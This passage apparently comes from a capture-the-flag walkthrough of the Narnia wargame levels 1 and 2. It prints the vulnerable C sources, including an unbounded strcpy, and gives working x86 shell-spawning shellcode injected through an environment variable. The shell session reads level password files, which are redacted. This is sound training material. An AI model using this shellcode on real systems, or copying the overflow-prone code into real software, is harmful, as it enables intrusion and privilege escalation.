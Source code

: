 ```
Here is your chance: buf: ﾭ
                           val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
**********
```
And there's the flag! (It's redacted)

# *Narnia1*
Let's start by getting the source:

{% highlight c %}
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
{% endhighlight %}

This programm will literally execute whatever is on the `EGG` [enviroment variable](https://en.wikipedia.org/wiki/Environment_variable). And by this I mean that the programm will interpret whatever the bytes in the `EGG` are and execute them as raw assembly instructions. Time for some shellcode! I really like the collection of [shell storm](http://shell-storm.org/shellcode/).
We can assign an enviroment variable with the `export` command. I tried different shellcodes and at the end this worked for me:
```
narnia1@narnia:/narnia$ export EGG=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
**********
```
Too easy?

# *Narnia2*
You guessed it, let's print the source!
{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);